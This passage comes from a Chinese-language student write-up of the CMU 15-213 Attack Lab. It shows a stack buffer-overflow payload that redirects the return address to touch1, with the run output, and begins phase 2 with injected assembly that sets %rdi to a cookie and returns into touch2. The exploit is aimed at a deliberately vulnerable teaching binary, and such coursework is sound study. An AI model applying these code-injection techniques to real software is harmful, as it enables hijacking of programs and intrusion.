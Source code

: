 ```assembly
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```

可见 `getbuf` 分配了大小为 40 字节的栈帧空间，以及 `touch1` 的地e址为 `0x4017c0` ，因此输入字符串前 40 字节任意，最后包含 `touch1` 的地址即可，**注意还要使用小端法表示数据**。

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40
```

结果：

```sh
$ ./hex2raw < phase1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```

### phase 2

phase 2 不仅需要在从 `getbuf` 返回时调用 `touch2`，还需要在调用时传入参数 cookie，也就是需要向寄存器 `%rdi` 写入 cookie 的值。

由于需要传入参数，就不能简单的通过覆写返回地址来实现，根据提示，需要通过汇编指令代码来实现，并将返回地址指向这些代码的地址。因此，只需要将代码写入到 `%rsp` 处，并且将返回地址设置成 `%rsp` 的地址。同时，由于要调用 `touch2`，我们还需要将 `touch2` 的地址压栈。

先获取汇编指令：

```sh
$ cat phase2.s
movq  $0x59b997fa, %rdi
pushq $0x4017ec
ret
$ gcc -c phase2.s       
$ objdump -d phase2.o                      

phase2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```
